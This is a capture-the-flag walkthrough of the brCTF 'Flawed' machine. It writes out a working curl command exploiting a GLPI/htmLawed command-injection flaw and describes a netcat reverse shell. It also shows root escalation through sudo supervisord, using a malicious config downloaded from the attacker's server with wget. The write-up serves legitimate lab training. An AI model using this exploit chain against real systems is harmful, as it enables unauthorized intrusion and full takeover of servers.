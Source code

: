 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respecfully.

We modify the exploit to get a reverse shell on out netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connection-received.png "a title")

## Post Exploitation
As usual we need to stabilize out shell and the steps are as follows:<br>
#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

Let's continue from when we left off. Let's check the sudo privileges the `ETSCTF` user has on the box.
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/check-sudo-privs.png "a title")

Hmmmm, interesting..... Can we abuse this? <br>
After doing some research we find out that: <br>
Supervisord is a `process control system` for Unix-like operating systems. It allows you to manage and monitor multiple processes, ensuring that they run continuously and `automatically restarting` them if they fail. Supervisord is often used to manage services, daemons, and other long-running processes.

Supervisord can run commands in it's configuration file. Now you get the hint from here? So what we'll have to do is to craft a configuration file for supervisord which contains commands to execute.<br>
We will take advantage of this to spawn a shell.<br>
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/spawn-nc-shell-priv.png "a title")

Before anything else let's start our listener<br>
![other nc listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/other-nc-listener.png "a title")

Now we have to transfer our malicious configuration to the target. To make that possible we must start our local python http server in the directory containing out malicious configuration. <br>
`python3 -m http.server 8000` <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-python-http-server.png "a title")

Downloading the malicious configuation from our python http server.<br>
NB: make sure you have write privileges to the current diretory you are in. You can use the `/tmp` since it has very loose permissions.<br>
`wget http://<server.ip>:<port>/test.conf`
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/downloading-mal-conf-file.png "a title")

Right after downloading the file we transfer it the the `/var/tmp` direcrory. This is necessary because it is the only folder that we can execute configuration files from.<br>
![copy to var-tmp](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/copy-payload-to-tmp.png "a title")

Now we can run our command with sudo to gain root privileges and viola!! we are root. :smiley: <br>
![copy to var-tmp](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/run-pe-vector.png "a title")